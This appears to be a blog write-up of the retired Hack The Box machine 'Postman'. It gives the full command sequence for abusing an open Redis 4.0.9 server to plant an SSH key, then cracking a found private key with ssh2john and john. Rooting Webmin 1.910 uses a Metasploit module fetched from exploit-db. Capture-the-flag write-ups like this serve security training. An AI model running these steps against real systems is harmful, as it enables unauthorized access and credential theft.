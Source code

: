 ```yaml
---
layout: default
---
```

## Postman
###### Retired March 2020
![](https://www.hackthebox.eu/storage/avatars/ad38e890e4e93afce51118bec4b9f48b.png)

Postman was loaded up with a couple of quick CVEs that exploited Redis for user and Webin for root. I’ve already added the machine to my /etc/hosts file as postman.htb. As always, I started with ```nmap```.

```bash
nmap -T5 -A -p 1-65535 postman.htb -n -oN nmap.results
```

![](https://yaboygmoney.github.io/htb/images/postman/nmap.JPG)

nmap showed that SSH, HTTP, Redis, and Webmin MiniServ were available on this machine. I did a quick glance at the website. 

![](https://yaboygmoney.github.io/htb/images/postman/website.JPG)

Nothing much was going on with the main page in the source. I ran gobuster and found some directories that sounded interesting but didn’t provide anything. That was expected, as the other services looked a little more interesting.

Checking out Redis version 4.0.9, I was quickly pointed to an [RCE exploit](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html). I checked for remote command execution vulnerability of the remote host with telnet first.

```bash
telnet postman.htb 6379
ECHO "Vulnerable"
```

![](https://yaboygmoney.github.io/htb/images/postman/vulncheck.JPG)

The system echoing back is a good sign. To take advantage of this exploit, I first needed to get redis tools. 

```bash 
apt-get install redis-tools
```

From there, it’s as easy as following the [CVE](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html).

```bash
ssh-keygen -t rsa -C “redis@postman.htb”
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt
redis-cli -h postman.htb flushall
cat foo.txt | redis-cli -h postman.htb -x set crackit
redis-cli -h postman.htb
config get dir
config set dbfilename “authorized_keys”
save
```

![](https://yaboygmoney.github.io/htb/images/postman/sshprep.JPG)

Now I’m set to use the new key I just generated.

```bash
ssh -i id_rsa redis@postman.htb
```

![](https://yaboygmoney.github.io/htb/images/postman/redisLogin.JPG)

Successfully logged in, I can see that there’s only a single user’s home directory present: Matt. I half-heartedly try to cat the user flag and, as expected, am denied.

![](https://yaboygmoney.github.io/htb/images/postman/denied.JPG)

During enumeration, I found a backup file “id_rsa.bak”. A quick way to do this is to run

```bash
locate *.bak
```

![](https://yaboygmoney.github.io/htb/images/postman/locate.JPG)

An RSA private key. I copied the contents of that file back into gedit and saved it. Then, I ran it against the tool ssh2john. This tool converts an SSH key to a hash that John can crack.

```bash
/usr/share/john/ssh2john.py mattkey > mattkey.hash
```

After I’ve converted the key to a hash, I can run john against it to carve out the password.

```bash
john –wordlist=/usr/share/wordlists/rockyou.txt mattkey.hash
```

![](https://yaboygmoney.github.io/htb/images/postman/cracked.JPG)

I’ve now got a full-fledged set of creds: Matt:computer2008. Now that I have Matt’s password, I can ```su``` to Matt and get the user flag from the redis ssh session.

![](https://yaboygmoney.github.io/htb/images/postman/user.JPG)

Looking back at the nmap results, Webmin MiniServ 1.910 is served up on port 10000. There is an ![exploit]( https://www.exploit-db.com/exploits/46984) created for this version for any authenticated user to execute the package updates module as root. I downloaded the exploit and loaded it into my Metasploit exploits.

```bash
cd ~/.msf4/modules/exploits/linux
wget https://www.exploit-db.com/exploits/46984
msfconsole
```
Then I queue the exploit.

![](https://yaboygmoney.github.io/htb/images/postman/payload1.JPG)

I tried sending that configuration and got an error, no session. Then I remembered that the Webmin server was running on HTTPS and set SSL to True in Metasploit and fired again.

![](https://yaboygmoney.github.io/htb/images/postman/rooted.JPG)

Success. The CVE is exploited.

Until next time.

#### Keep trying
